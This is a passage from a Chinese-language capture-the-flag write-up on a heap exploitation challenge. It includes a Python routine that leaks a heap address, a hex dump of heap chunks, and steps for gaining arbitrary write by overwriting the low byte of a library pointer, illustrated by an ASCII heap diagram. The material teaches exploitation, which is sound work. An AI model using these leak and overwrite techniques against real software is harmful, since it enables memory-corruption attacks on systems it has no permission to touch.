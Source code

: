 ```python
    def leak_heap_addr(self):
        self.set_author_name("A" * 32)
        self.create(0x18, "LeakHeap", 0x18, "LeakDesc")
        self.detail()
        author = [ld["Author"] for ld in self.library_detail if ld["Name"] == "LeakHeap"]
        print author
        assert len(author) == 1
        self.lib0_heap_addr = u64(author[0][32:] + "\x00\x00")
        print hex(self.lib0_heap_addr)
```

泄露之后发现这个泄露的堆地址是 `0x55C106CBC2B0`，然后我们动态调式查看堆地址的内容可以发现：

```
000055C106CBC260  00 00 00 00 00 00 00 00  21 00 00 00 00 00 00 00  ........!.......
000055C106CBC270  4C 65 61 6B 48 65 61 70  00 00 00 00 00 00 00 00  LeakHeap........
000055C106CBC280  00 00 00 00 00 00 00 00  21 00 00 00 00 00 00 00  ........!.......
000055C106CBC290  4C 65 61 6B 44 65 73 63  00 00 00 00 00 00 00 00  LeakDesc........
000055C106CBC2A0  00 00 00 00 00 00 00 00  31 00 00 00 00 00 00 00  ........1.......
000055C106CBC2B0  01 00 00 00 00 00 00 00  70 C2 CB 06 C1 55 00 00  ........p.......
000055C106CBC2C0  90 C2 CB 06 C1 55 00 00  18 00 00 00 00 00 00 00  ................
000055C106CBC2D0  00 00 00 00 00 00 00 00  31 FD 01 00 00 00 00 00  ........1.......
```

容易看出，上面截取的地址是三个连续的堆块。`book name`、`book description` 与 `book` 三个内存块。

### get_addr_write

下面我们尝试获取任意地址写。同样根据上面的思路：

1. 我们通过 `.bss` 段的溢出漏洞，可以覆盖 `LIBRARY[0]` 的最低字节，从而更改它指向的地址。
2. 为了控制新的 `LIBRARY[0]`，可以通过将 `description` 的大小控制大于 `0x100`，这样 `LIBRARY[0]` 的地址就一定会落在它的 `Description` 上；
3. 我们将新的 `LIBRARY[0]` 的 `Decription` 指向 `LIBRARY[1]`，于是我们就可以通过 `LIBRARY[0]` 指定目标地址，通过 `LIBRARY[1]` 修改地址的内容；

画图说明逻辑更加直观。比如，原本有一个正常的两个分配的书块：

```
                             Heap Segment           
                                                    
                         +--------------------+     
                    0x18 | book1 name buffer  |     
                         ----------------------     
                   0x100 | book1 desc buffer  |     
+-----------+            ----------------------     
| library[0]|----------->| book1 seqnumber    |     
-------------       0x20 | book1 name ptr     |     
| library[1]|-+          | book1 desc ptr     |     
------------- |          | book1 desc size    |     
|  ......   | |          +--------------------+     
+-----------+ |          +--------------------+     
              |     0x20 | book2 name buffer  |     
              |          ----------------------     
              |     0x20 | book2 desc buffer  |     
              |          ----------------------     
              +--------->| book2 seqnumber    |     
                    0x20 | book2 name ptr     |     
                         | book2 desc ptr     |     
                         | book2 desc size    |     
                         +--------------------+     
```
